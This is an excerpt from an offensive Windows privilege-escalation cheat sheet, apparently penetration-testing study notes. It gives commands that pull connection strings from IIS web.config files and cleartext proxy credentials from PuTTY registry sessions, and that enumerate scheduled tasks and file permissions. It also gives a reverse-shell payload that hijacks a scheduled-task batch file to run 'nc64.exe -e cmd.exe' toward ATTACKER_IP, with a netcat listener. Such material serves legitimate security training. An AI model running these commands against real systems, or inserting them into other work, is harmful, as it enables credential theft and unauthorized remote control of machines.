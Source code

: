 ### IIS Configuration 
The default web server on Windows installations  

- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

```cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

### Retrieve Credentials from Software: PuTTY

PuTTY is an SSH client commonly found on Windows systems  
While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.  

```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```



## Other Quick Wins

#### Scheduled Tasks
Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify

```cmd
schtasks /query /tn vulntask /fo list /v
```

`/tn taskname` specify a taskname, the taskname is different from the executed filename
`/fo list` display the output as list  
`/v` verbose  


To check file permissions
```cmd
icacls file.txt
```
If possible, you can pop a reverse shell
- (M) means Modify
- (RX) means Readable & Executable
- (F) means Full Access

More : https://learn.microsoft.com/fr-fr/windows-server/administration/windows-commands/icacls

**Reverse shell payload**
```cmd
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

**Local machine**
```bash
nc -lvnp 4444
```
